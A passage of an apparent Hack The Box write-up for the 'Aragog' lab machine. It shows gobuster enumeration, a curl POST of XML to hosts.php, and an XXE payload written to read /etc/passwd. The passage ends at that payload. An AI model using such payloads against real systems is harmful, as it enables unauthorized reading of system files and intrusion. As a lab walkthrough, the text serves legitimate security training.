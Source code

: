 Inside we see some XML.

```
root@kali:~/htb/aragog# cat test.txt 
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```

Can't do much with this right now. If we check the web server, we get a default apache page. Let's fire up `gobuster` and search for txt and php extensions.

```
root@kali:~/htb/aragog# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.78 -x txt,php

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.78/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Extensions   : .txt,.php
=====================================================
/hosts.php (Status: 200)

```

If we check `hosts.php` we are presented with the following:

![hosts](/img/aragog-hosts.png)

It's odd that the sentence ends midway through. From looking at our txt file we found earlier we had a parameter about subnets. Subnets and hosts go hand in hand. So maybe we can POST our test file to this and get output for the subnet_mask parameter.

Let's test with `curl`.

```
root@kali:~/htb/aragog# curl -d @test.txt http://10.10.10.78/hosts.php

There are 62 possible hosts for 255.255.255.192
```

We see that we are indeed able to POST XML data to the page and get some output.


## Exploitation

Let's see if we can get an XML External Entity (XXE) attack to work and inject in some XML to get file reads on the system. First we modify our XML file to the following to test if we can read `/etc/passwd`.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```
